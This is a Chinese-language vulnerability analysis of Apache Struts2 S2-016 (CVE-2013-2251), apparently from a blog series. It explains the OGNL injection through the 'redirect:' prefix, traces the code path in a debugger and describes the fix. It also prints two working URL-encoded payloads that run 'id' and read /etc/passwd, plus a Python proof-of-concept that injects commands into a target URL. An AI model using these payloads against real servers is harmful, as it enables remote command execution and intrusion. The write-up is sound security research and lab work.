

# 目录

[前言](##前言)

[Struts简介](##Struts简介)

[漏洞复现](##漏洞复现)

[漏洞简介](###漏洞简介)

[环境搭建](###环境搭建)

[Payload](###Payload)

[POC](###POC)

[漏洞分析](##漏洞分析)

[漏洞修复](##漏洞修复)

[总结](##总结)

[参考](##参考)


## 前言

> 这是Struts系列第十篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-016漏洞,又名CVE-2013-2251漏洞

> 在Struts2框架中,DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀,这些导航或者前缀后面可以跟OGNL表达式,但Struts2并没有对这些前缀做过滤,所以可以执行恶意OGNL表达式执行系统命令.DefaultActionMapper类支持"method:"、"action:"、"redirect:"、"redirectAction:"这些方法

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-016)

#### 漏洞成因

> 在Struts2框架中,DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀,这些导航或者前缀后面可以跟OGNL表达式,但Struts2并没有对这些前缀做过滤,所以可以执行恶意OGNL表达式执行系统命令.DefaultActionMapper类支持"method:"、"action:"、"redirect:"、"redirectAction:"这些方法

#### 漏洞影响范围

>  Struts 2.0.0 - Struts 2.3.15

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B%22id%22%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D
```

#### 读取文件

```java
?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B%22cat%22%2C%22/etc/passwd%22%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D
```

### POC

```python
#!/usr/bin/env python3

import shlex
import random
import string
import urllib
import requests

class S2_016_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-016漏洞,又名CVE-2013-2251漏洞',
            'description': 'Struts2 S2-016漏洞可执行任意命令,影响范围为: Struts 2.0.0 - Struts 2.3.15',
            'date': '2013-06-03',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/index.action'
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded",
            'Connection': "keep-alive",
        }
        self.payload = '''?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B{cmd}%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D'''
   
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta
    
    def filter(self, check_str):

        """
        过滤无用字符

        :param str check_str:待过滤的字符串

        :return str temp:过滤后的字符串
        """
        
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp   
    
    def parser_cmd(self, cmd):

        """
        命令解析,将要执行的命令解析为字符串格式,如echo 123 解析为"echo", "123"

        :param str cmd: 待解析的命令

        :return: cmd_str 解析后的字符串
        """

        cmd = shlex.split(cmd)
        cmd_str = '"' + '","'.join(cmd) + '"'
        return cmd_str

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        check_req = requests.get(self.url + self.payload.format(cmd = urllib.parse.quote(self.parser_cmd('echo' + ' ' + self.capta) )), headers = self.headers)
        check_str = self.filter(list(check_req.text))
        try:
            if self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    s2_016 = S2_016_BaseVerify('http://localhost:8080/s2_016_war_exploded/')
    print(s2_016.run())
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.漏洞出现在lib/struts2-core-2.2.3.jar/org.apache.struts2.dispatcher.mapper.DefaultActionMapper类中,它是ActionMapper的实现类.


&emsp;&emsp;&emsp;&emsp;2.首先在lib/struts2-core-2.2.3.jar/org/apache/struts2/dispatcher/FilterDispatcher.class doFilter方法内第173行打断点,doFilter方法会先进行创建值栈、上下文、包装request等一些初始化操作,执行到actionMapper.getMapping方法时,F7进入该函数


&emsp;&emsp;&emsp;&emsp;3.getMapping方法首先创建一个ActionMapping,然后对请求的url进行处理,解析对应的action配置信息,如去掉请求的url后缀名.action,可见/index.action经过处理后变成了/index,继续执行,F7进入hadleSpecialParameters方法




&emsp;&emsp;&emsp;&emsp;4.hadleSpecialParameters方法首先获取请求的参数对象,然后遍历这个对象,遍历看是否有以.x和.y结尾的参数名,如果有的话则去掉.x和.y,F7进入parameterAction.execute方法


&emsp;&emsp;&emsp;&emsp;5.在execute方法的第73行中,redirect.setLocation方法将redirect:后面的payload设置为了location,所以我们的payload在这个地方进入到了location参数


&emsp;&emsp;&emsp;&emsp;6.按F9返回到doFilter方法,继续向执行,F7进入181行的serviceAction方法


&emsp;&emsp;&emsp;&emsp;7.serviceAction方法先获取Configuration对象,然后通过Configuration得到容器对象,再从容器中获取ActionProxyFactory工厂类创建ActionProxy动态代理.在381行F7进入execute方法


&emsp;&emsp;&emsp;&emsp;8.继续F7进入父方法execute


&emsp;&emsp;&emsp;&emsp;9.看到了S2-012中的老朋友conditionalParse方法,也就代表遇到了多次遇到的老朋友translateVariables方法.conditionalParse用于处理跳转地址location,会判断location是否有ognl表达式,有的话将会执行表达式.在前面提到payload已被传入到location,F7进入translateVariables


&emsp;&emsp;&emsp;&emsp;10.继续F7进入,最终找到执行的方法translateVariables,最终还是通过stack.findValue(var, asType)执行代码的.


## 漏洞修复

> 删除了DefaultActionMapper中对特殊参数名前缀redirect: 和 redirectAction的处理,只留下了action: 和method: 两种无害的写法.由于在修复S2-015时对添加了正则allowedActionNames对 ActionName进行过滤,因此使用DefaultActionMapper.this.cleanupActionName(name)对参数名前缀action:进行修复,该方法会使用allowedActionNames对ActionName进行正则过滤。


## 总结

> 虽然大多数漏洞与translateVariables方法有关,但大部分漏洞点是前面的方法把payload传给translateVariables方法来执行的.自从S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞后.之后漏洞都需要利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true,然后再执行payload.


## 参考

> https://mp.weixin.qq.com/s/g1g7OqLyUg9Cd0tH2bvFpg

> https://cwiki.apache.org/confluence/display/WW/S2-016

> https://xz.aliyun.com/t/4603

> https://github.com/vulhub/vulhub/blob/master/struts2/s2-016/README.zh-cn.md

